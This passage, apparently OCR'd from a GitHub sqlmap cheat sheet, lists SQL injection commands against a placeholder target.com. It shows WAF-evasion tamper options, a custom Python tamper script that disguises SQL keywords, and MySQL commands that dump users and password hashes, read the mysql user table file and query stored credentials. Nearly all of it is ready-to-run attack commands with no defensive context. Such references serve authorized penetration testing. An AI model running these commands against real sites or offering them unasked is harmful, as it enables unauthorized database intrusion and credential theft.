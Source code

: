 
## 🎭 WAF Bypass Techniques

### Common Tamper Scripts
```bash
# Space to comment
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment

# Random case
sqlmap -u "http://target.com/page.php?id=1" --tamper=randomcase

# Unicode encoding
sqlmap -u "http://target.com/page.php?id=1" --tamper=unionalltounion

# Multiple bypass techniques
sqlmap -u "http://target.com/page.php?id=1" --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

### Custom Tamper Scripts
Create custom tamper script:
```python
#!/usr/bin/env python
# custom_tamper.py

def tamper(payload, **kwargs):
    """
    Custom tamper script for specific WAF
    """
    if payload:
        payload = payload.replace("SELECT", "SeLeCt")
        payload = payload.replace("UNION", "UnIoN")
        payload = payload.replace(" ", "/**/")
    
    return payload
```

Use custom tamper:
```bash
sqlmap -u "http://target.com/page.php?id=1" --tamper=custom_tamper
```

---

## 📊 Database-Specific Techniques

### MySQL
```bash
# MySQL-specific enumeration
sqlmap -u "http://target.com/page.php?id=1" --dbms=mysql --current-user --is-dba --users --passwords

# Read MySQL files
sqlmap -u "http://target.com/page.php?id=1" --file-read="/var/lib/mysql/mysql/user.MYD"

# MySQL privilege escalation
sqlmap -u "http://target.com/page.php?id=1" --sql-query="SELECT user,password FROM mysql.user"
```
